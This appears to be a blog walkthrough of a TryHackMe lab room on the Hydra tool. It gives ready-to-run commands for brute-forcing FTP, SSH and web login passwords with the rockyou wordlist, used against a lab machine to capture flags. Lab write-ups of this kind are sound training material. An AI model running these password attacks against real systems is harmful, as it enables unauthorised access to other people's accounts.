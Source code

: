 ```yaml
---
title: "Hydra - TryHackMe"
author: bakeery
description: "Walkthrough of Hydra from TryHackMe"
date: 2023-03-16 22:22:22 +0530
categories: [writeups, tryhackme]
tags: [tool]
---
```


**[Hydra from TryHackMe](https://tryhackme.com/room/hydra)**

## Task 1 - Hydra Introduction

uses and installation

## Task 2 - Using Hydra

* **ftp bruteforcing :** `hydra -l user -P passlist.txt ftp://$MACHINE_IP`

* **ssh bruteforcing :** `hydra -l <username> -P <full path to pass> $MACHINE_IP -t 4 ssh`

* **POST web form :** `hydra -l <username> -P <wordlist> $MACHINE_IP http-post-form "/<loginURL>:username=^USER^&password=^PASS^:F=incorrect" -V`

for the wordlists, i used ***rockyou.txt***. in kali, it is present in `/usr/share/wordlists/rockyou.txt.gz`.

1. Use Hydra to bruteforce molly's web password. What is flag 1?

	it is given that the username is molly. therefore, the hydra command would be `hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz $MACHINE_IP http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V`

	![bruteforcing the login page](/assets/img/tryhackme/hydra/hydra1.png)

	the ***flag*** then appears with some disney background idk xD

	![getting the flag](/assets/img/tryhackme/hydra/hydra2.png)

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

	continuing, the hydra command would be `hydra -l molly -P /usr/share/wordlists/rockyou.txt.gz $MACHINE_IP -t 4 ssh`

	then after ssh-ing into molly's system using the password, the ***flag*** is present in `flag2.txt` right in the home directory

	![the bruteforce, the access and the flag](/assets/img/tryhackme/hydra/hydra3.png)

real nice room.

